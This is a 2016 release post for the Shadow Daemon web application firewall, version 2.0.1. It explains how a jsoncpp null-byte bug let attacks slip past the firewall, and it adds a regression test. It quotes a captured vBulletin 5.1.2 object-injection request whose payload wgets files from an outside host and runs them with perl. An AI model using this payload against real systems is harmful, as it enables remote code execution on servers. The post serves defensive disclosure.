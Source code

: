 +++
title = "Release of shadowd 2.0.1"
description = ""
tags = [
    "release",
    "shadowd",
    "bugfix",
]
date = "2016-03-06"
categories = [
    "Development",
    "Shadow Daemon",
]
menu = "main"
author = "Hendrik Buchwald"
+++

**TL;DR:** There was a bug in the library *jsoncpp* regarding null-bytes. It was fixed a year ago, but most packet managers still ship affected versions. If a vulnerable version of the library is used it is possible to bypass shadowd 2.0.0 or earlier.

<!--more-->

## Discovery of the bug

I operate a large amount of [honeypots](https://shadowd.zecure.org/tutorials/honeypots/) to observe and study attacks on web applications. Recently I noticed that one of the web applications (vBulletin 5.1.2) was successfully compromised, but strangely enough the attack was not detected by Shadow Daemon. So I started recording everything and a little bit later I saw a request with the following resource.

    /ajax/api/hook/decodeArguments?arguments=O:12:%22vB_dB_Result%22:2:%7Bs:5:%22%00*%00db%22;O:18:%22vB_Database_MySQLi%22:1:%7Bs:9:%22functions%22;a:1:%7Bs:11:%22free_result%22;s:6:%22system%22;%7D%7Ds:12:%22%00*%00recordset%22;s:151:%22wget%20http://augsburg-auto.ru/files/vb.txt;mv%20vb.txt%20simple.php;cd%20/tmp;wget%20http://augsburg-auto.ru/files/SQL.txt;mv%20SQL.txt%20bash;perl%20bash;rm%20-rf%20SQL*%22;%7D

The parameter *arguments* contains a serialized PHP object and an URL, so this should result in a blacklist impact of 6. More than enough to trigger the alarm, but it did not. After looking at the recorded parameters it was pretty obvious why: *arguments* was cut off after the first null-byte (*%00*), so it was incomplete and did not trigger any filters at all.

    O:12:"vB_dB_Result":2:{s:5:" 

This seemed odd to me, considering that shadowd uses *std::string*. Unlike char arrays the C++ standard library strings are not terminated by null-bytes, so this should not have happened. I started debugging shadowd and noticed that strings were cut off by jsoncpp when decoding client input with null-bytes. As a result of that all security checks in shadowd used the incomplete versions, even though they could handle null-bytes perfectly fine themselves.

After some digging I found [this](https://sourceforge.net/p/jsoncpp/patches/18/) ticket in the jsoncpp bug tracker. The problem with null-bytes was already reported and fixed *exactly* a year ago (now that is a nice coincidence). So why was this problem still happening? Because most packet managers install versions of jsoncpp that are much older than a year.

## The bug fix

The new version of shadowd ships with jsoncpp. The source of the library is directly compiled into the binary. This is the only (usable) way to ensure that shadowd is not affected by the problem, because it might take years until most packet managers update their versions of jsoncpp. On a positive note, this means there is one dependency less required to install shadowd.

So make sure to update to shadowd 2.0.1 as fast as possible to apply this patch.

## Precautionary measures

To prevent this problem from happening again (e.g., when updating the json lib) there is a new test case for null-bytes.

    BOOST_AUTO_TEST_CASE(nullbyte_decode) {
        swd::request_ptr request(new swd::request);
        swd::request_handler request_handler(request, swd::cache_ptr(), swd::storage_ptr());

        request->set_content("{\"version\":\"\",\"client_ip\":\"\",\"caller\":\"\","
         "\"resource\":\"foo\\u0000bar\",\"input\":{},\"hashes\":{}}");
        BOOST_CHECK(request_handler.decode() == true);

        std::stringstream expected;
        expected << "foo" << '\0' << "bar";
        BOOST_CHECK(request->get_resource() == expected.str());
    }

## Lessons learned

The lesson I learned (again) today is to not trust anyone or anything. Even though shadowd could handle null-bytes fine, one of its dependencies could not. The same could be true for web applications you are developing or using yourself. Even if the actual code of the application does not contain bugs, are you certain that there are no bugs in the dozens of libraries the application is using? So better be prepared and protect your applications!
